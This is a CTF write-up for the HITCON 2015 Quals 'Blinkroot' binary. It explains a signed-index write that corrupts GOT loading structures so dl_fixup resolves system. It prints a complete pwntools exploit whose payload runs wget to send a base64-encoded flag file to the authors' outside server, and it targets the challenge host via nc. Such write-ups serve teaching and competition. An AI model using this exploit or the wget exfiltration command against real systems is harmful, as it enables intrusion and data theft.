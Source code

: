 ```yaml
---
layout: post
title: "HITCON 2015 Quals: Blinkroot"
modified: 2015-10-19
tags: hitcon hitcon2015quals
---
```

*This challenge was solved by one of my teammates, @kutyacica and me and the write up was written by me.* 

This was a binary which read 1024 bytes from stdin to BSS and indexes into the buffer with the buffer's first 8 bytes as an index and writes to that position `\x10\x00\x00\x00\x00\x00\x00\x00` and the buffer's 8-16 bytes.

As the index is signed, we can use negative numbers and write to address before the buffer. Although we could only use 16-byte aligned addresses.

So we overwrite the GOT loading structures which caused the dl_fixup to overwrite arbitrary memory. As we did not know the address of the system, we also had to make dl_fixup to calculate for us. Fortunately it could be done as it called add instruction on some of our inputs. So we queried the __libc_start_main's address (already in GOT: 0x600B80) and added the difference to main (system-start_main = 0x46640-0x21dd0 = 0x24870).

As the stdin, stdout, stderr was closed, we used a simple wget callback to our server: `http://cuby.hu/x/\$(cat flag|base64)`.

The exploit was:

{% highlight bash %}
while true; do python -c "from pwn import *; bufStart=0x600bd0; where1=p64(0x24870); 
where2='X'*8; what='B'*8; yval=p64(0x600B80-8); y=p64(bufStart+8*8); rdi=p64(bufStart+400); 
payload='\x80'+'\xff'*7 + p64(bufStart) + where1 + rdi + where2 + p64(7) + yval*9 + 
p64(bufStart) + y + p64(0x42)*16 + p64(bufStart+248) + p64(bufStart-8) + p64(bufStart+272) + 
'A'*4 + '\x0a\x03\xFF\xFF' + what + p64(0x43)*13 + 'A'*8 + 
'wget http://cuby.hu/x/\$(cat flag|base64);sleep 10;'; 
print payload+cyclic(1024-len(payload))"|nc 52.68.211.239 10000; sleep 0.1; done
{% endhighlight %}